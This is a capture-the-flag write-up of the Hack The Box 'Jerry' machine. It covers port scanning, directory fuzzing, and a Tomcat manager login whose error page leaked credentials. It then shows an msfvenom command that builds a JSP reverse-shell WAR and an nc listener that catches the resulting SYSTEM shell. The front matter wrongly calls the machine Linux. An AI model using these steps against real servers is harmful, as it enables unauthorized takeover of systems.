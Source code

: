 ```yaml
---
title: "Jerry"
date: 2023-09-11T21:46:53+02:00
tags: ["windows","web"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "A friendly linux machine which has a only http port which is vulnerable to WAR files upload. PrivEsc for this machine is not needed."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Jerry
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Jerry

![Untitled](/HTB/jerry-icon.png)

## Tools Used

- nmap
- msfvenom

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT     STATE SERVICE REASON          VERSION
8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
```

Only one http server in port 8080 running a website powered by Apache Tomcat.

## Enumeration

![Untitled](/HTB/jerry-1.png)

The website looks like a default Apache Tomcat website.

Let’s fuzz the page

```bash
gobuster dir -u http://$IP:8080/ -w ~/Documents/wordlists/KaliLists/dirb/common.txt -x php,html,css,js,py,txt -t 100 -o fuzz | tee fuzz.save
```

```bash
/aux                  (Status: 200) [Size: 0]
/com1                 (Status: 200) [Size: 0]
/com2                 (Status: 200) [Size: 0]
/com3                 (Status: 200) [Size: 0]
/con                  (Status: 200) [Size: 0]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/host-manager         (Status: 302) [Size: 0] [--> /host-manager/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/tomcat.css           (Status: 200) [Size: 5931]
```

The manager directory called my attention, could be a potential admin page.

When I try to access to `/manager` directory a prompt with a login form is displayed so I decided to put default/common credentials.

But when I failed the first login attempt a server error is displayed but leaking the credentials

![Untitled](/HTB/jerry-2.png)

![Untitled](/HTB/jerry-3.png)

Once inside we can see a admin tool where we are able to upload WAR files.

## Exploiting

After investigating about WAR files, I found a blog talking about how to build a reverse shell for Tomcat servers.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f war -o shell.war
```

The above command builds a Java JSP reverse shell with war extension.

Now it’s time to upload and deploy the file.

![Untitled](/HTB/jerry-4.png)

A new directory is displayed in the admin tool, let’s access to `/shell` but before we need to set a nc listener.

```bash
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/jerry-5.png)

**NT\AUTHORITY SYSTEM** without privEsc, I think it is the easiest machine so far.

## Flag(s)

![Untitled](/HTB/jerry-6.png)

![Untitled](/HTB/jerry-7.png)

